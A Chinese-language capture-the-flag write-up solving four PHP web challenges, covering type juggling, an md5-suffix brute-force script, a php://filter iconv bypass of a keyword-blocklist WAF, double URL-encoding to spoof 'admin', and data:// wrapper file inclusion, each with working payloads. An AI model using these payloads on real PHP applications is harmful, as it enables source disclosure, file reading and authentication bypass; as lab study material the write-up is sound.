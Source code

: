 ## 1.ezphp

```php
<?php
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;
 
$a = $_GET['a'];
$b = $_GET['b'];
 
if(isset($a) && intval($a) > 6000000 && strlen($a) <= 3){
    if(isset($b) && '8b184b' === substr(md5($b),-6,6)){
        $key1 = 1;
        }else{
            die("Emmm...åæ³æ³");
        }
    }else{
    die("Emmm...");
}
 
$c=(array)json_decode(@$_GET['c']);
if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022){
    if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0])){
        $d = array_search("DGGJ", $c["n"]);
        $d === false?die("no..."):NULL;
        foreach($c["n"] as $key=>$val){
            $val==="DGGJ"?die("no......"):NULL;
        }
        $key2 = 1;
    }else{
        die("no hack");
    }
}else{
    die("no");
}
 
if($key1 && $key2){
    include "Hgfks.php";
    echo "You're right"."\n";
    echo $flag;
}
 
?> Emmm...
```

对于参数a,传入参数a=1e9,php会将其解释为1*10^9,从而达到条件.

对于参数b,我们写个脚本来碰撞一下:

```python
import hashlib

for num in range(10000,9999999999):
    res = hashlib.md5(str(num).encode()).hexdigest() #md5改为题目需要的算法
    if res[len(res)-6:] == "8b184b":   #对hash的后6位为"8b184b"的数字进行碰撞
        print(str(num)) #等待执行结束 输出结果
        break

```

跑出来结果b=53724.

对于参数c,

**条件1**：c非空 且 不是数值类型（前面有个感叹号） 且 c的m键值要大于2022。

```php
$c=(array)json_decode(@$_GET['c']);
if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022)
```

分析思路：这里主要考察`is_numeric`函数的用法，`is_numeric`在php中判断参数是否是数值类型是否是数字或数字字符串。注意`is_numeric("a123")`返回`false`，`is_numeric("123a")`也返回`false`；单看这里还不能下结论。

再看后面，c的m键值后面还要做比较，因此不能直接简单构造一个`is_numreric`为`false`的字符串。例如，`'123a'`和一个整数作比较时，它会转换成123；'a123'和整数作比较时，由于第一个位置是a，非整数，php则规定其值为0，即变成了0和123比较（关于这个部分可以参考 php中字符串和整数比较 相关知识）。于是可以构造出一个c:{"m":"12345a"}等等。

条件2：c还有个n键，其值是一个array类型，大小为2，并且第一个元素是一个数组类型。即类似于：[[*,*...],*]。

```php
if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0])){
        $d = array_search("DGGJ", $c["n"]);
        $d === false?die("no..."):NULL;
        foreach($c["n"] as $key=>$val){
            $val==="DGGJ"?die("no......"):NULL;
        }
        $key2 = 1;
    }else{
        die("no hack");
```

分析思路：后面语句查找n键中是否有字符串'DGGJ',如果找到指定的键值，则返回对应的键名，否则返回 FALSE。看到这里，?:运算符找不到的情况下直接die（退出），因此这里应该让它找到，故n键第二个值为'DGGJ'。

但是，后面foreach遍历时候有'DGGJ'反而直接die，看到这里，发现这两个是矛盾的。

这个问题想了半天，最后终于明白了。回到array_search函数，查找是否有，那不就是比较吗！而且前文说到将一个字符串和一整数比较时会将字符串向整数转化，这个'DGGJ'一点整数的影子都找不到，因此只能判断为0。由此可知，第一种思路直接在c的第二个位置填上字符串'DGGJ'比较成功，第二种思路填一个数字0比较成功。第一种思路前面已经pass，因此选择第二种思路。

最后根据json编码格式对c进行编码即可。

到此为止，就已经执行完了key1和key2的赋值语句，顺着下去直接可以得到flag。
**payload**:a=1e9&b=53724&c={"m":"12345a","n":[[0,1,2],0]}

## 2.file_include

```php
<?php
highlight_file(__FILE__);
    include("./check.php");
    if(isset($_GET['filename'])){
        $filename  = $_GET['filename'];
        include($filename);
    }
?>
```

简单的文件包含,不过竟然写了waf.

```php
<?php if($_GET["filename"]){ $preg_match_username = 'return preg_match("/base|be|encode|print|zlib|quoted|write|rot13|read|string/i", $_GET["filename"]);'; if (eval($preg_match_username)) { die("do not hack!"); } }>
```

本来打算用`filename=php://fil1ter/convert.base64-encode/resource=index.php`读取源码,结果被ban了(悲)

网上查了查,发现有如下绕过方式:

**convert.iconv.* 绕过**
这个过滤器需要php支持iconv，而iconv是默认编译的。使用convert.iconv.*过滤器等同于用iconv()函数处理所有的流数据。

iconv — 字符串按要求的字符编码来转换
convery.iconv.*的使用有两种方法:

convert.iconv..
convert.iconv./
和就是编码方式，有如下几种(以下不全)：

```
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*
EUC-JP*
SJIS*
eucJP-win*
SJIS-win*
ISO-2022-JP
ISO-2022-JP-MS
CP932
CP51932
BASE64
```

具体可参考官方手册https://www.php.net/manual/en/mbstring.supported-encodings.php

**payload:filename=php://filter//convert.iconv.SJIS*.UCS-4*/resource=flag.php**

## 3.PHP2

访问index.php2得到源码:

```php
<?php
if("admin"===$_GET[id]) {
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "admin")
{
  echo "<p>Access granted!</p>";
  echo "<p>Key: xxxxxxx </p>";
}
?>

Can you anthenticate to this website?
```

1.浏览器在处理输入时会自动执行一次`urldecode`.

2.后端php文件会再次执行一次`urldecode`.

所以传入的id `urldecode`两次后得到admin.

a的url编码是`%41`

%的url编码是`%25`

所以要让解码两次得到admin,我们的输入是%2541dmin

解码一次后得到%41dmin

再次解码后得到admin,从而得到flag.

## 4.fileinclude

```php
<?php
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET["file1"]) && isset($_GET["file2"]))
{
    $file1 = $_GET["file1"];
    $file2 = $_GET["file2"];
    if(!empty($file1) && !empty($file2))
    {
        if(file_get_contents($file2) === "hello ctf")
        {
            include($file1);
        }
    }
    else
        die("NONONO");
```

payload：?file1=php://filter/read=convert.base64-encode/resource=flag.php&file2=data://text/plain;base64,aGVsbG8gY3Rm

php://filter:读取源代码并进行base64编码输出
data://:自PHP>=5.2.0起，可以使用data://数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。一般需要用到base64编码传输